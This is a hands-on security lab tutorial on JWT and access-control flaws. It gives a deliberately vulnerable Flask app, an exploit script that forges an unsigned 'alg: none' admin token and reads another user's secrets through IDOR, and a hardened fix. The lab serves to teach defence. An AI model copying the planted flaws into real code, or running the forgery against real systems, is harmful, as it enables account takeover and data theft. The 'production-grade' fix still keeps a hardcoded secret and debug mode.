

# 06 - Hands-on Lab: Exploiting & Hardening JWT & Access Control

Welcome to the **Hands-on Identity Security Lab**. In this lab, you will run a local Python microservice containing critical authentication and authorization flaws, execute an automated PoC exploit script to forge administrator tokens and extract victim data, and finally deploy a production-grade hardened fix.

---

## Lab Architecture & Objectives



### Lab Objectives
1. **Forge Admin Token (`alg: none`):** Craft a unsigned JWT with `role: "admin"` to bypass authentication on `/admin` and retrieve `FLAG{JWT_Alg_None_Bypass_2026}`.
2. **Exploit BOLA / IDOR:** Extract private credentials of user `bob` by manipulating resource ID parameters on `/api/profile/<user_id>`.
3. **Deploy Hardened Fix:** Review and test `secure_app.py` to confirm all attack vectors are neutralized.

---

## Part 1: Vulnerable Application (`vulnerable_app.py`)

Create `vulnerable_app.py` in your working directory and execute it with Python 3:

```python
import sqlite3
import base64
import json
from flask import Flask, request, jsonify, make_response
import jwt

app = Flask(__name__)
SECRET_KEY = "production_super_secret_key"

# Initialize in-memory SQLite database
def init_db():
    conn = sqlite3.connect(':memory:')
    cursor = conn.cursor()
    cursor.execute('''CREATE TABLE users (id INTEGER PRIMARY KEY, username TEXT, role TEXT, secret_key TEXT)''')
    cursor.execute("INSERT INTO users VALUES (1, 'admin', 'admin', 'FLAG{JWT_Alg_None_Bypass_2026}')")
    cursor.execute("INSERT INTO users VALUES (2, 'alice', 'user', 'alice_private_api_key_8819')")
    cursor.execute("INSERT INTO users VALUES (3, 'bob', 'user', 'bob_confidential_token_9921')")
    conn.commit()
    return conn

db_conn = init_db()

@app.route('/api/login', methods=['POST'])
def login():
    data = request.get_json() or {}
    username = data.get('username')
    
    cursor = db_conn.cursor()
    cursor.execute("SELECT id, username, role FROM users WHERE username = ?", (username,))
    user = cursor.fetchone()
    
    if not user:
        return jsonify({"error": "User not found"}), 404
        
    # Generate JWT token
    token = jwt.encode({"user_id": user[0], "username": user[1], "role": user[2]}, SECRET_KEY, algorithm="HS256")
    
    resp = make_response(jsonify({"message": "Login successful", "token": token}))
    # VULNERABILITY 1: Insecure Cookie (No HttpOnly, No Secure, No SameSite)
    resp.set_cookie('session_token', token)
    return resp

@app.route('/admin', methods=['GET'])
def admin_panel():
    token = request.cookies.get('session_token') or request.headers.get('Authorization', '').replace('Bearer ', '')
    if not token:
        return jsonify({"error": "Missing token"}), 401
    
    try:
        # VULNERABILITY 2: Signature verification disabled & algorithms not restricted!
        # Simulating permissive legacy token verification
        decoded = jwt.decode(token, options={"verify_signature": False})
        
        if decoded.get('role') == 'admin':
            return jsonify({"status": "Success", "flag": "FLAG{JWT_Alg_None_Bypass_2026}"}), 200
        return jsonify({"error": "Access Denied: Admin role required"}), 403
    except Exception as e:
        return jsonify({"error": str(e)}), 400

@app.route('/api/profile/<int:user_id>', methods=['GET'])
def get_profile(user_id):
    token = request.cookies.get('session_token') or request.headers.get('Authorization', '').replace('Bearer ', '')
    if not token:
        return jsonify({"error": "Unauthorized"}), 401
    
    try:
        decoded = jwt.decode(token, options={"verify_signature": False})
        # VULNERABILITY 3: BOLA / IDOR - No validation that decoded['user_id'] == user_id!
        cursor = db_conn.cursor()
        cursor.execute("SELECT id, username, role, secret_key FROM users WHERE id = ?", (user_id,))
        user = cursor.fetchone()
        if user:
            return jsonify({"id": user[0], "username": user[1], "role": user[2], "secret_key": user[3]}), 200
        return jsonify({"error": "Not found"}), 404
    except Exception as e:
        return jsonify({"error": str(e)}), 400

if __name__ == '__main__':
    print("[*] Starting Vulnerable AppSec Server on http://127.0.0.1:5000")
    app.run(port=5000, debug=True)
```

---

## Part 2: Automated Exploit Script (`exploit.py`)

Create `exploit.py` and run it against the active vulnerable microservice:

```python
import requests
import base64
import json

TARGET_URL = "http://127.0.0.1:5000"

def print_step(title):
    print(f"\n[+] ==========================================")
    print(f"[+] {title}")
    print(f"[+] ==========================================")

# Step 1: Login as standard user 'alice'
print_step("Step 1: Authenticate as Unprivileged User 'alice'")
session = requests.Session()
login_res = session.post(f"{TARGET_URL}/api/login", json={"username": "alice"})
print(f"[*] Response Code: {login_res.status_code}")
print(f"[*] Issued Token: {login_res.json().get('token')}")

# Step 2: Forge alg:none Admin Token
print_step("Step 2: Forge 'alg: none' JWT for Admin Privilege Escalation")

header = {"alg": "none", "typ": "JWT"}
payload = {"user_id": 1, "username": "attacker", "role": "admin"}

header_b64 = base64.urlsafe_b64encode(json.dumps(header).encode()).decode().rstrip('=')
payload_b64 = base64.urlsafe_b64encode(json.dumps(payload).encode()).decode().rstrip('=')

# Construct unsigned token with trailing dot
forged_jwt = f"{header_b64}.{payload_b64}."
print(f"[*] Forged Token Payload: {forged_jwt}")

# Execute Admin Bypass Attack
admin_res = session.get(f"{TARGET_URL}/admin", cookies={"session_token": forged_jwt})
print(f"[*] Admin Endpoint Status: {admin_res.status_code}")
print(f"[*] Admin Endpoint Body: {admin_res.json()}")

# Step 3: Exploit BOLA / IDOR Endpoint
print_step("Step 3: Exploit BOLA to Exfiltrate Victim 'bob' Private Secrets")
# Attacker (alice) queries profile of user 3 (bob)
profile_res = session.get(f"{TARGET_URL}/api/profile/3", cookies={"session_token": forged_jwt})
print(f"[*] Exfiltrated Bob Profile: {profile_res.json()}")
```

---

## Part 3: Production-Grade Hardened Backend (`secure_app.py`)

Run `secure_app.py` to verify that all vulnerabilities have been completely remediated.

```python
import sqlite3
from flask import Flask, request, jsonify, make_response
import jwt
from datetime import datetime, timedelta

app = Flask(__name__)
SECRET_KEY = "production_super_secret_key_hardened_32bytes"

def init_db():
    conn = sqlite3.connect(':memory:', check_same_thread=False)
    cursor = conn.cursor()
    cursor.execute('''CREATE TABLE users (id INTEGER PRIMARY KEY, username TEXT, role TEXT, secret_key TEXT)''')
    cursor.execute("INSERT INTO users VALUES (1, 'admin', 'admin', 'FLAG{JWT_Alg_None_Bypass_2026}')")
    cursor.execute("INSERT INTO users VALUES (2, 'alice', 'user', 'alice_private_api_key_8819')")
    cursor.execute("INSERT INTO users VALUES (3, 'bob', 'user', 'bob_confidential_token_9921')")
    conn.commit()
    return conn

db_conn = init_db()

def verify_token(token_string):
    """Hardened JWT verifier enforcing HS256 algorithm and signature validation."""
    return jwt.decode(
        token_string,
        SECRET_KEY,
        algorithms=["HS256"],  # Hardened: Enforce exact algorithm whitelist
        options={"verify_signature": True, "verify_exp": True}
    )

@app.route('/api/login', methods=['POST'])
def secure_login():
    data = request.get_json() or {}
    username = data.get('username')
    
    cursor = db_conn.cursor()
    cursor.execute("SELECT id, username, role FROM users WHERE username = ?", (username,))
    user = cursor.fetchone()
    
    if not user:
        return jsonify({"error": "Invalid credentials"}), 401
        
    payload = {
        "user_id": user[0],
        "username": user[1],
        "role": user[2],
        "exp": datetime.utcnow() + timedelta(minutes=15)
    }
    token = jwt.encode(payload, SECRET_KEY, algorithm="HS256")
    
    resp = make_response(jsonify({"message": "Authenticated securely"}))
    # HARDENED COOKIE FLAGS: HttpOnly, Secure, SameSite=Strict
    resp.set_cookie(
        '__Host-session',
        token,
        httponly=True,
        secure=True,
        samesite='Strict',
        path='/'
    )
    return resp

@app.route('/admin', methods=['GET'])
def secure_admin_panel():
    token = request.cookies.get('__Host-session') or request.headers.get('Authorization', '').replace('Bearer ', '')
    if not token:
        return jsonify({"error": "Unauthorized"}), 401
    
    try:
        decoded = verify_token(token)
        if decoded.get('role') == 'admin':
            return jsonify({"status": "Access Granted", "flag": "FLAG{JWT_Alg_None_Bypass_2026}"}), 200
        return jsonify({"error": "Forbidden: Requiring Admin role"}), 403
    except jwt.PyJWTError as e:
        return jsonify({"error": f"Invalid Cryptographic Token: {str(e)}"}), 401

@app.route('/api/profile/<int:user_id>', methods=['GET'])
def secure_get_profile(user_id):
    token = request.cookies.get('__Host-session') or request.headers.get('Authorization', '').replace('Bearer ', '')
    if not token:
        return jsonify({"error": "Unauthorized"}), 401
    
    try:
        decoded = verify_token(token)
        authenticated_user_id = decoded.get('user_id')
        
        # BOLA FIX: Verify that caller owns the requested resource ID or is Admin
        if authenticated_user_id != user_id and decoded.get('role') != 'admin':
            return jsonify({"error": "Forbidden: Cannot access another user's profile"}), 403
            
        cursor = db_conn.cursor()
        cursor.execute("SELECT id, username, role, secret_key FROM users WHERE id = ?", (user_id,))
        user = cursor.fetchone()
        if user:
            return jsonify({"id": user[0], "username": user[1], "role": user[2], "secret_key": user[3]}), 200
        return jsonify({"error": "Not found"}), 404
    except jwt.PyJWTError:
        return jsonify({"error": "Invalid Token"}), 401

if __name__ == '__main__':
    print("[*] Starting Remediated AppSec Server on http://127.0.0.1:5000")
    app.run(port=5000, debug=True)
```

